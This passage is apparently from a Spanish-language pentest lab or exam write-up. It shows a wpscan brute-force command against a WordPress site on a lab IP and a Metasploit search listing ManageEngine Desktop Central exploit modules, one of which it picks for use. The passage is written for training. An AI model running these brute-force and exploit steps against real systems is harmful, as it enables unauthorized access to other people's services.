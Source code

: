 ```
[+] Data Sent: 21.862 KB
[+] Data Received: 278.334 KB
[+] Memory used: 180.484 MB
[+] Elapsed time: 00:00:11

```
Se confirma que tenemos 4 usuarios

![image](https://user-images.githubusercontent.com/50930193/173707353-1645fc02-e094-46e7-94bd-2f25a2d774df.png)

Ahora podemos utilizar diversos metodos para hallar la clave, primero crear un archivo de usuarios:
![image](https://user-images.githubusercontent.com/50930193/173707779-9221cf48-b5ca-418e-be39-981cc11d965c.png)

Y luego con ello ejecutamos la fuerza bruta
```
wpscan --url http://192.168.109.174:8585/wordpress -U users.txt -P examen_passwords.txt 
```
![image](https://user-images.githubusercontent.com/50930193/173708074-6e166e1b-24dd-4449-9165-c4f86ada3f88.png)

Finalmente probemos ingresando 

![image](https://user-images.githubusercontent.com/50930193/173708208-4c5925e2-eee3-4866-ad14-29ffdf6b7265.png)

### Pregunta 3: Explote el servicio 8020

Navegando en ese puero ingresamos y vemos que esta el ManageEngine

![image](https://user-images.githubusercontent.com/50930193/173708857-1e798c37-2f74-401b-bfb8-89d087e66651.png)

Desde MSFConsole buscamos si hay modulos asociados
```
search manageengine desktop central
```
Este es el resultado
```
Matching Modules
================

   #  Name                                                       Disclosure Date  Rank       Check  Description
   -  ----                                                       ---------------  ----       -----  -----------
   0  exploit/multi/http/manage_engine_dc_pmp_sqli               2014-06-08       excellent  Yes    ManageEngine Desktop Central / Password Manager LinkViewFetchServlet.dat SQL Injection
   1  exploit/windows/http/manageengine_connectionid_write       2015-12-14       excellent  Yes    ManageEngine Desktop Central 9 FileUploadServlet ConnectionId Vulnerability
   2  auxiliary/admin/http/manage_engine_dc_create_admin         2014-12-31       normal     No     ManageEngine Desktop Central Administrator Account Creation
   3  exploit/windows/http/desktopcentral_file_upload            2013-11-11       excellent  Yes    ManageEngine Desktop Central AgentLogUpload Arbitrary File Upload
   4  exploit/windows/http/desktopcentral_deserialization        2020-03-05       excellent  Yes    ManageEngine Desktop Central Java Deserialization
   5  auxiliary/scanner/http/manageengine_desktop_central_login                   normal     No     ManageEngine Desktop Central Login Utility
   6  exploit/windows/http/desktopcentral_statusupdate_upload    2014-08-31       excellent  Yes    ManageEngine Desktop Central StatusUpdate Arbitrary File Upload
```
Podemos elegir el el módulo 5 para saber las credenciales de la aplicacion manage engine o usar el módulo 1 para ingresar al sistema operativo que contiene la aplicación manage engine, elijamos primero el módulo 5 y luego el módulo 1
```

msf6 auxiliary(scanner/http/manageengine_desktop_central_login) > show options

Module options (auxiliary/scanner/http/manageengine_desktop_central_login):
```